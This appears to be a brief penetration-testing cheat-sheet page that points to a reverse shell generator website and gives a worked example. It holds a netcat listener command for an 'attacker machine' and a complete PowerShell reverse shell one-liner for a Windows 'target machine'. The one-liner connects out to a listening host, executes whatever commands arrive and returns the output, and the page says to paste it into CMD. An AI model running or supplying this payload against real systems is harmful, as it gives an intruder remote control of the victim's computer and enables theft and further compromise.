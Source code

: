 📌 [Reverse Shell Generator](https://www.revshells.com/)

![](.gitbook/assets/image-20230423230905165.png)

**`e.g.`**

```bash
# Kali Linux attacker machine
nc -nvlp 9001
```

```bash
# Windows target machine
# Run CMD and paste the code below
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.31.128',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

